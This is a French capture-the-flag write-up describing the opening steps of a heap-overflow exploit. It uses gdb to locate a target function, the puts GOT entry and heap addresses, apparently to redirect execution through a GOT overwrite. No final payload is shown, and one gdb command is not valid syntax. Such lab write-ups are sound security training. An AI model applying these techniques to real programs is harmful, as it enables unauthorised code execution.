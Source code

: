 ## Étapes d'Exploitation

1. Trouver l'adresse de la fonction `m`:

   ```
   (gdb) disas m
   Dump of assembler code for function m:
      0x080484f4 <+0>:     push   %ebp
      ...
   ```

   L'adresse de `m` est `0x080484f4`

2. Trouver l'entrée GOT pour `puts`:

   ```
   (gdb) disas puts
   Dump of assembler code for function puts@plt:
      0x08048400 <+0>:     jmp    *0x8049928
      ...
   ```

   L'entrée GOT de `puts` se trouve à `0x8049928`.

3. Déterminer l'offset nécessaire pour écraser `second_struct[1]` avec le premier overflow:

   - Nous devons trouver la distance entre le buffer pointé par first_struct[1] (où argv[1] est écrit) et l'emplacement mémoire de second_struct[1]
   - Avec GDB, nous pouvons trouver les adresses des deux emplacements:

   ```
   (gdb) disas main
   0x08048531 <+16>:    call   0x80483f0 <malloc@plt> # malloc pour first_struct
   0x08048536 <+21>:    mov    %eax,0x1c(%esp)
   ...
   0x0804854b <+42>:    call   0x80483f0 <malloc@plt> # malloc pour temp_ptr (first_struct[1])
   0x08048550 <+47>:    mov    %eax,%edx
   ...
   0x08048560 <+63>:    call   0x80483f0 <malloc@plt> # malloc pour second_struct
   0x08048565 <+68>:    mov    %eax,0x18(%esp)
   ```

   - Ajoutons des points d'arrêt après les appels malloc pour examiner les adresses mémoire:

   ```
   (gdb) break *0x08048550   # Après l'affectation de temp_ptr pour first_struct[1]
   (gdb) break *0x08048585   # Après l'affectation de second_struct[1]
   (gdb) run test1 test2

   Breakpoint 1, 0x08048550 in main ()
   (gdb) x $eax                  # Valeur de temp_ptr pour first_struct[1]
   0x804a018:      0x00000000    # C'est ici que argv[1] sera copié

   (gdb) continue
   Breakpoint 2, 0x08048585 in main ()
   (gdb) x $eax             # Examiner second_struct
   0x804a028:      0x00000002
   (gdb) x &0x804a028[1]    # Adresse de second_struct[1]
   0x804a02c:      0x0804a038    # C'est ce que nous voulons écraser
   ```
